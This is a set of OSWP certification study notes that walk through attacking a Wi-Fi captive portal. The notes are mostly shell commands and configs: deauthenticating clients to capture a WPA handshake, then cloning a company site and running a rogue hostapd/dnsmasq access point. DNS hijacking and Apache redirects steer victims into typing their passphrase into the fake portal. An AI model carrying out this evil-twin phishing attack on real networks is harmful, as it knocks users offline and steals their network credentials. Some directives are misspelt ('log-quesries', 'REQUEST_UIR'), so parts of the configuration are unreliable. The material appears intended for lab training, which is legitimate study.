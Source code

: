 # Offensive Security Wireless Professional (OSWP)

## Attacking Captive Portal

<details>
<summary>How do browsers detect existance of a captive portal?</summary>

> **Description**
>
> Browsers try to resolve a set of URIs and expect a recieve from server in the
> form of HTTP 204 or 200 responses.
>
> Detecting existance of a captive portal and internet connectivity are two
> different things.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>What is a target AP?</summary>

> **Description**
>
> The target access point, also the collection of its information like channel,
> clients and etc.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>What are the requirements of attacking a captive portal?</summary>

> **Description**
>
> On WPA-PSK or WPA2-PSK networks we should capture a handshake.
>
> Then we would need to copy the captive portal or when non exists, create a
> convincing one.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>Capture a handshake from an access point?</summary>

> **Description**
>
> Stop network interfaces:
> ```sh
> sudo airmon-ng check kill
> ``````
>
> Switch wireless interface to monitor mode:
> ```sh
> sudo airmon-ng start wlan0
> ``````
>
> Use monitor mode to capture information about clients and access points:
> ```sh
> sudo airodump-ng wlan0mon
> ``````
>
> Capture handshake from one of clients:
> ```sh
> sudo airodump-ng -w discovery --output-format pcap -c 11 wlan0mon
> ``````
>
> Force a client to reconnect to the access pointer:
> ```sh
> sudo aireplay-ng -0 0 -a <AP:BSSID> wlan0mon
> ``````
>
> Disable monitor mode:
> ```sh
> sudo airmon-ng stop wlan0mon
> ``````
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>Create a captive portal?</summary>

> **Description**
>
> For this scenario we need PHP and Apache server.
>
> Download website content of the target corporation behind captive portal:
> ```sh
> wget -r -l2 https://megacorpone.com
> ``````
>
> Setup http server and index file:
> ```sh
> sudo mkdir /var/www/html/portal
> sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
> sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
> ``````
>
> Create index file:
> ```sh
> sudoedit /var/www/html/portal/index.php
> ``````
>
> Create login check script to verify client given password works:
> ```sh
> sudoedit /var/www/html/portal/login_check.php
> ``````
>
> Create an interface for fake captive portal:
> ```sh
> sudo ip addr add 192.168.87.1/24 dev wlan0
> sudo ip link set wlan0 up
> ``````
>
> Use dnsmasq to setup DHCP server:
> ```sh
> vim mco-dnsmasq.conf
>
> domain-needed
> bogus-priv
> no-resolv
> filterwin2k
> expand-hosts
> domain=localdomain
> local=/localdomain/
>
> listen-address=192.168.87.1
>
> dhcp-range=192.168.87.100,192.168.87.199,12h
> dhcp-lease-max=100
>
> log-quesries
> address=/com/192.168.87.1
> address=/org/192.168.87.1
> address=/net/192.168.87.1
> # Entries for windows 7 and 10 captive portal detection
> address=/dns.msftncsi.com/131.103.255.255
> ``````
>
> Start DHCP service:
> ```sh
> sudo dnsmasq --conf-file=mco-dnsmasq.conf
> ``````
>
> Confirm services are running:
> ```sh
> sudo ss -antlp
> ``````
>
> Sometimes clients ignore settings setup in DHCP lease, we can reroute these
> requests by netfilter:
> ```sh
> sudo nft add table ip nat
> sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
> sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
> ``````
>
> Configure Apache to accept mode rewrite and alias rules:
> ```sh
> sudoedit /etc/apache2/sites-enabled/000-default.conf
>
> # Apple
> RewriteEngine on
> RewriteCond %{HTTP_USER_AGENT} ^CaptiveNetworkSupport(.*)$ [NC]
> RewriteCond %{HTTP_HOST} !^192.168.87.1$
> RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L,R=302]
>
> # Android
> RedirectMatch 302 /generate_204 http://192.168.87.1/portal/index.php
>
> # Windows 7 and 10
> RedirectMatch 302 /ncsi.txt http://192.168.87.1/portal/index.php
> RedirectMatch 302 /connecttest.txt http://192.168.87.1/portal/index.php
>
> # Catch-all rule to redirect other possible attempts
> RewriteCond %{REQUEST_UIR} !^/portal/ [NC]
> RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L]
> ``````
>
> Use Apache modules to make rewrite and redirects work:
> ```sh
> sudo a2enmod rewrite
> sudo a2enmod alias
> ``````
>
> Restart Apache:
> ```sh
> sudo systemctl restart apache2
> ``````
>
> Confirm that captive portal works:
> ```sh
> firefox http://192.168.87.1/portal/index.php
> ``````
>
> Configure hostapd:
> ```sh
> vim mco-hostapd.conf
>
> interface=wlan0
> ssid=MegaCorp One Lab
> channel=11
> hw_mode=g
> ieee80211n=1
> ``````
>
> Run hostapd to create captive portal:
> ```sh
> sudo hostapd -B mco-hostapd.conf
> ``````
>
> Capture passphrases using your captive portal.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>
